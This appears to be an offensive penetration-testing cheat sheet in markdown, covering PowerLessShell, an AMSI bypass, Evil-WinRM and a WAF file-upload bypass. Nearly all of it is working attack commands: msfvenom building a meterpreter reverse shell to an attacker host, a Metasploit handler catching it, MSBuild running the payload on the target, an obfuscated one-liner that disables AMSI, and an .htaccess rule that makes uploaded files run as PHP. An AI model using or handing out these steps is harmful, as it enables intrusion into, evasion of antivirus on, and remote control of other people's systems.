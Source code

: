 ## PowerLessShell - Powershell Restriction Bypass
```
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell

# Attacker Machine
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=attacker_IP LPORT=4443 -f psh-reflection > liv0ff.ps1

msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost attacker_IP;set lport 4443;exploit"

python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj

# On target machine - need to upload the .csproj file to the target
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj

You should get a shell back on msfconsole.

NOTE: You can create an msfvenom payload to catch a netcat shell instead of meterpreter.
```

## AMSI Bypass
Paste this into the command line and run before executing powershell scripts:
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; (Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```

## Enable Evil-Winrm
It's possible that the target might have AV running to prevent you from running PSExec or Evil-Winrm on it. If you somehow have RCE from the web server or have an exploit to perform RCE, you can run the following command to enable Evil-Winrm access on the target.
```
powershell Enable-PSRemoting -force
```
# WAF Bypass Techniques
## File Upload Bypass - black lists / white lists
Upload an .htaccess file to allow for alternate file extensions
```
echo "AddType application/x-httpd-php .exploit" > .htaccess

Upload the .htaccess file to the target to allow .exploit extension.
```

# Pivoting
